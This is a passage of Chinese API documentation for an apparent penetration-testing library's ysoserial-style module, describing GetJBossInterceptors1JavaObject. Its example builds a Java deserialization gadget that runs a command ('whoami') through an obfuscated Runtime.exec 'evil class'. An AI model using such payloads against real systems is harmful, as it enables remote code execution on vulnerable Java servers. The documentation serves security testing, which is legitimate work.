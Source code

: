 #### 返回值
|返回值(顺序)|返回值类型|返回值解释|
|:-----------|:---------- |:-----------|
| r1 | `*JavaObject` |   |
| r2 | `error` |   |


### GetJBossInterceptors1JavaObject

#### 详细描述
GetJBossInterceptors1JavaObject 基于JBossInterceptors1 序列化模板生成并返回一个Java对象。

通过可变参数`options`，用户可以提供额外的配置，这些配置使用GenClassOptionFun类型的函数指定。

这些函数使用户能够定制生成的Java对象的特定属性或行为。

options：用于配置Java对象的可变参数函数列表。

返回：成功时返回生成的Java对象及nil错误，失败时返回nil及相应错误。

Example:
```
command = "whoami"
className = "KEsBXTRS"
gadgetObj,err = yso.GetJBossInterceptors1JavaObject(

	yso.useRuntimeExecEvilClass(command), // 使用Runtime Exec方法执行命令
	yso.obfuscationClassConstantPool(),
	yso.evilClassName(className), // 指定恶意类的名称

)
```


#### 定义

`GetJBossInterceptors1JavaObject(options ...GenClassOptionFun) (*JavaObject, error)`

#### 参数
|参数名|参数类型|参数解释|
|:-----------|:---------- |:-----------|
| options | `...GenClassOptionFun` |   |

#### 返回值
|返回值(顺序)|返回值类型|返回值解释|
|:-----------|:---------- |:-----------|
| r1 | `*JavaObject` |   |
| r2 | `error` |   |


### GetJSON1JavaObject
